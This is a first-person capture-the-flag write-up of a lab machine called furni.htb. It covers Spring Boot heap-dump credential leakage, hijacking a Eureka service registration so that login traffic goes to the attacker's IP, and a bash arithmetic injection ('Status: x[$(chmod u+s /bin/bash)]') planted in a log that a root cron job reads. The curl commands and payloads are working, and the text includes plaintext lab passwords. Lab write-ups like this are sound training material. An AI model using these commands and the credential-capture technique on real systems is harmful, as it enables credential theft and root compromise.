







Exploitation Summary
Exploitation process: The target machine was running a Spring Boot web application exposed through multiple ports. Initial enumeration revealed a Spring Boot actuator endpoint at /actuator/heapdump, which when downloaded and analyzed using Eclipse Memory Analyzer Tool (MAT), disclosed MySQL database credentials in plain text within the heap memory. These credentials provided SSH access as user oscar190. Further enumeration revealed a Netflix Eureka service discovery server on port 8761, protected by basic authentication. By examining the application configuration files, I discovered credentials for the Eureka server. Leveraging a Server-Side Request Forgery (SSRF) vulnerability inherent to Eureka's registration mechanism, I reconfigured the USER-MANAGEMENT-SERVICE to point to my attacking machine. When user miranda-wise logged in through the automated login simulator, her credentials were captured by my malicious endpoint. After pivoting to miranda-wise, privilege escalation was achieved by exploiting a critical vulnerability in shell arithmetic evaluation within a root-owned cron job. The script /opt/log_analyse.sh performed arithmetic comparison using the -eq operator on unsanitized log file content. By crafting a malicious log entry containing command substitution within the arithmetic context, I was able to execute arbitrary commands as root, ultimately setting the SUID bit on /bin/bash to gain a root shell.
Technologies/Exploits: Spring Boot Actuator heap dump analysis, Netflix Eureka SSRF via service registration manipulation, Shell arithmetic evaluation command injection, Linux SUID privilege escalation.
Initial Reconnaissance
I begin with an nmap scan to identify open ports and running services on the target machine:

The scan reveals several interesting services running on different ports. Port 80 is serving an HTTP application, and port 8761 appears to be running something that requires authentication. I add furni.htb to my /etc/hosts file for proper DNS resolution.
Web Enumeration - Port 8761 Protected Service
When attempting to access port 8761, I'm immediately presented with an HTTP Basic Authentication prompt:

I try several default credentials but none of them work. Running whatweb against the main HTTP service provides some useful information:
whatweb http://furni.htbhttp://furni.htb [200 OK] Bootstrap, Content-Language[en-US], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.66], Meta-Author[Untree.co], Script, Title[Furni | Home], UncommonHeaders[x-content-type-options], X-Frame-Options[DENY], X-XSS-Protection[0], nginx[1.18.0]The server is running nginx 1.18.0 on Ubuntu Linux and appears to be a furniture e-commerce website. I enumerate virtual hosts and directories using gobuster. While virtual host enumeration doesn't yield results, directory enumeration reveals several interesting paths:

Web Application Testing - Contact Form Analysis
Among the discovered paths, /contact catches my attention. It contains a contact form that, when submitted, displays the message:
Thank you for contacting us!. We will reach you soon.
This suggests that the form submissions might be reviewed by someone, possibly triggering stored XSS. I attempt various XSS payloads to steal session tokens, but none of them produce results. The application appears to be sanitizing user input properly.
Spring Boot Discovery - Blog IDOR Vulnerability
While exploring the website, I discover a blog section with numbered posts. Testing for IDOR (Insecure Direct Object Reference) vulnerabilities, I try accessing blog post ID 0, which triggers an interesting error page:

The error page is characteristic of Spring Boot applications - it's the default "Whitelabel Error Page". This is a significant finding because Spring Boot applications often expose actuator endpoints that can leak sensitive information.
Spring Boot Actuator Enumeration
Knowing that I'm dealing with a Spring Boot application, I run a specialized scan targeting Spring Boot actuator endpoints:

The scan reveals multiple exposed actuator endpoints. While examining the /actuator/env endpoint, I notice that most sensitive data is obfuscated. However, one endpoint stands out: /actuator/heapdump. This endpoint dumps the entire Java heap memory, which can contain sensitive information like passwords, tokens, and database credentials in plain text.
Heap Dump Analysis - Credential Discovery
I download the Eclipse Memory Analyzer Tool (MAT) from https://eclipse.dev/mat/download/ to analyze the heap dump. This tool is specifically designed to parse Java heap dumps and find interesting strings and objects.
After downloading the heap dump from /actuator/heapdump and loading it into MAT, I search for database connection strings and credentials. Eventually, I discover a MySQL connection string containing credentials:

jdbc:mysql://localhost:3306/Furni_WebApp_DB.{password=0sc@r190_S0l!dP@sswd, user=oscar190}The credentials extracted are:
- Username:
oscar190 - Password:
0sc@r190_S0l!dP@sswd
Initial Access - SSH Authentication
Since the nmap scan showed SSH running on port 22, I attempt to authenticate using the discovered credentials:
ssh oscar190@10.10.11.66The credentials work successfully, granting me shell access as user oscar190. Looking at the /home directory, I notice there's another user on the system: miranda-wise.
Internal Service Discovery
To enumerate internal services that might not be accessible from outside the machine, I run ss -tuln to list all listening TCP ports:

The output reveals several internal services:
- Port 8080: Appears to be part of the main application
- Port 8081: An unknown service with a login page at
/login - Port 8082: Another application component
Checking the groups for user miranda-wise reveals that she's part of the developers group:
id miranda-wiseuid=1001(miranda-wise) gid=1002(miranda-wise) groups=1002(miranda-wise),1003(developers)This group membership might be significant for accessing certain files or directories later.
Netflix Eureka Server Discovery
While investigating the application files in /var/www/web/Eureka-Server/src/main/resources/application.yaml, I discover credentials for the service running on port 8761:
Username: EurekaSrvr
Password: 0scarPWDisTheB3stThese credentials grant access to the Eureka Server interface. After some research, I learn that Netflix Eureka is an open-source service discovery platform used primarily for microservice architectures. It allows services to register themselves and discover other services dynamically.
Key resources:
Log Analysis - User Activity Discovery
Searching for files related to the miranda-wise user in /var/www, I find interesting activity in the log file at /var/www/web/user-management-service/log/application.log:

The logs show that miranda-wise is repeatedly logging into the service on port 8081 (user-management-service). This appears to be automated behavior, happening at regular intervals. This presents an opportunity for credential interception.
Eureka SSRF Exploitation - Service Registration Hijacking
The key to this attack is understanding how Eureka's service registration works. Services register themselves with Eureka, providing their hostname, IP address, and health check URLs. By examining http://localhost:8761/eureka/apps, I can see an XML document listing all registered applications, including USER-MANAGEMENT-SERVICE.
Attack Preparation
My strategy is to hijack the USER-MANAGEMENT-SERVICE registration and redirect all traffic to my attacking machine. When miranda-wise attempts to log in through the automated login simulator, her credentials will be sent to my server instead of the legitimate service.
First, I create a replica of the login page currently served at localhost:8081 and save it as index.html on my machine. Then I set up a simple Flask server with three endpoints:
GET /- Serves the login pageGET /login- Serves the login pagePOST /login- Accepts any POST parameters and logs them
I start this Flask server on port 8081, listening on all interfaces (0.0.0.0) so it can receive connections from the target machine.
Service Deregistration
To modify the Eureka service registration, the simplest approach is to delete the existing service and recreate it pointing to my machine. I delete the current USER-MANAGEMENT-SERVICE registration:
curl -X DELETE \
-u 'EurekaSrvr:0scarPWDisTheB3st' \
http://10.10.11.66:8761/eureka/apps/USER-MANAGEMENT-SERVICE/localhost:USER-MANAGEMENT-SERVICE:8081Malicious Service Registration
Now I register a new service entry with my attacking machine's IP address and hostname, so all requests to USER-MANAGEMENT-SERVICE will be routed to my server:
curl -X POST \
-u 'EurekaSrvr:0scarPWDisTheB3st' \
-H "Content-Type: application/json" \
-d '{
"instance": {
"instanceId": "10.10.16.6:USER-MANAGEMENT-SERVICE:8081",
"hostName": "10.10.16.6",
"app": "USER-MANAGEMENT-SERVICE",
"ipAddr": "10.10.16.6",
"status": "UP",
"port": { "$": 8081, "@enabled": "true" },
"securePort": { "$": 443, "@enabled": "false" },
"vipAddress": "USER-MANAGEMENT-SERVICE",
"secureVipAddress": "USER-MANAGEMENT-SERVICE",
"healthCheckUrl": "http://10.10.16.6:8081/actuator/health",
"statusPageUrl": "http://10.10.16.6:8081/actuator/info",
"homePageUrl": "http://10.10.16.6:8081/",
"dataCenterInfo": {
"@class": "com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo",
"name": "MyOwn"
}
}
}' \
http://10.10.11.66:8761/eureka/apps/USER-MANAGEMENT-SERVICECredential Capture
Shortly after registering my malicious service, I receive a POST request from miranda-wise with her login credentials:
Received data: {'username': 'miranda.wise@furni.htb', 'password': 'IL!veT0Be&BeT0L0ve', '_csrf': 'Jyp8WCTjkk0PTDemDmuE3btDqn1f_ri3Vod2a4eGB24q5_ubQx9OPBGGoikiLlSUb0aw5N1xhxxnz9qaY-NHWrS0ZVoahMOv'}
10.10.11.66 - - "POST /login HTTP/1.1" 200 -The captured credentials are:
- Username:
miranda-wise - Password:
IL!veT0Be&BeT0L0ve
Lateral Movement - Miranda-Wise Access
Using the captured credentials, I switch to the miranda-wise user:
su miranda-wiseSuccessfully authenticating as miranda-wise, I can now retrieve the user flag. However, the service on port 8081 turns out to be just a mock login interface with no actual functionality beyond authentication.
Privilege Escalation - Process Monitoring
Having exhausted the obvious privilege escalation vectors in miranda-wise's home directory, I decide to monitor running processes to identify automated tasks. I transfer pspy64 to the target machine to observe process execution in real-time without requiring root privileges.
After running pspy64 for a few minutes, I observe several interesting processes:
CMD: UID=0 PID=771454 | /bin/bash /opt/scripts/miranda-Login-Simulator.shThis confirms the automated login behavior I observed earlier. More importantly, I notice another recurring process:
CMD: UID=0 PID=771404 | /bin/bash /opt/log_analyse.sh /var/www/web/cloud-gateway/log/application.log
CMD: UID=0 PID=771559 | /bin/bash /opt/log_analyse.sh /var/www/web/user-management-service/log/application.logThe script /opt/log_analyse.sh is being executed periodically by root (UID=0), processing various application log files. This is a potential privilege escalation vector if I can control the content being processed by the script.
Shell Arithmetic Vulnerability Analysis
Checking the permissions on the log directories, I discover that as a member of the developers group, I have write access:
ls -la /var/www/web/cloud-gateway/log/drwxrwxr-x 3 www-data developers 4096 Oct 15 13:03 .While I cannot directly modify the existing log files due to permission restrictions, I have full control over the directory itself. This means I can delete and recreate files within it.
Examining the /opt/log_analyse.sh script, I focus on finding potential command injection opportunities. The script doesn't appear to have obvious command execution vulnerabilities like eval or direct command substitution. However, I notice it uses the -eq operator for arithmetic comparison.
After researching shell arithmetic vulnerabilities, I discover an article on Dev.to: "-eq can be critically vulnerable". This article explains how arithmetic evaluation in bash can be exploited for command injection.
Understanding the Vulnerable Function
The vulnerable function in log_analyse.sh looks like this:

The function processes each line of the log file, using grep with a regular expression to extract values matching the pattern 'Status *'. The \K in the regex means it only captures the portion after "Status ". This extracted value is stored in the $code variable and then used in an arithmetic comparison with -eq.
The critical vulnerability lies in how bash handles arithmetic evaluation. When bash encounters -eq, it evaluates the expressions on both sides arithmetically. If the expression contains command substitution syntax like $(command), bash will execute that command during the arithmetic evaluation phase.
Exploitation - Crafting Malicious Log Entry
Since I cannot edit the existing application.log file directly but have full permissions on its parent directory, my approach is to:
- Delete the existing
application.log - Create a new
application.logwith malicious content - Wait for the root cron job to execute the script
I craft a malicious log entry that will set the SUID bit on /bin/bash, allowing me to spawn a root shell:
cd /var/www/web/cloud-gateway/log/
rm application.log
echo "Status: x[$(chmod u+s /bin/bash)]" > application.logThe payload Status: x[$(chmod u+s /bin/bash)] works because when the script extracts everything after "Status: " and uses it in an arithmetic comparison, bash will evaluate x[$(chmod u+s /bin/bash)]. The command substitution $(chmod u+s /bin/bash) gets executed as root during this evaluation, setting the SUID bit on bash.
Root Access - SUID Bash Exploitation
After waiting for the cron job to execute, I verify that the SUID bit has been set on /bin/bash:
ls -la /bin/bash-rwsr-xr-x 1 root root 1183448 Apr 18 2022 /bin/bashThe 's' in the permissions confirms that the SUID bit is set. Now I can spawn a root shell using bash's privileged mode:
bash -pwhoamirootI now have root access and can retrieve the root flag, completing the machine.